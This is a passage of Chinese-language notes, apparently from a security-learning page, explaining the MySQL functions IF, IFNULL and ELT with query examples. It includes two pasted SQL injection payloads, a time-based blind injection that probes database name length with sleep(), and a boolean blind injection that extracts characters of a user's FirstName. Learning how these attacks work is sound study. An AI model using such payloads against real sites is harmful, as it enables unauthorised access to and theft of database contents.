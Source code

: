 ```
mysql> select if(Alt=22,sleep(2),'not_22')'22_or_not' from vorname;
+-----------+
| 22_or_not |
+-----------+
| 0         |
| not_22    |
| not_22    |
| 0         |
+-----------+
4 rows in set (4.00 sec)
```

🤳这里的**22_or_not**是别名

贴一个时间盲注payload来自忘记哪里，判断数据库名称的长度

```
id=2) and if(length(database())=6,sleep(5),null);
```



## IFNULL(expr1,expr2)

**expr1**不为**NULL**，返回值就是**expr1**，否则返回值为**expr2**

```
mysql> select ifnull(1,9);
+-------------+
| ifnull(1,9) |
+-------------+
|           1 |
+-------------+
1 row in set (0.00 sec)
mysql> select ifnull(null,9);
+----------------+
| ifnull(null,9) |
+----------------+
|              9 |
+----------------+
1 row in set (0.00 sec)
```

贴一个时间盲注payload来自忘记哪里

```
id = -2441 OR (ORD(MID((SELECT IFNULL(CAST(FirstName AS CHAR),0x20) FROM user ORDER BY id LIMIT 1,1),2,1))>112)#
```



## ELT(N,str1,str2,...)

如果**N=1**返回**str1**，如果**N=2**返回**str2**，如果参数的数量小于**1**或大于**N**，返回**NULL**
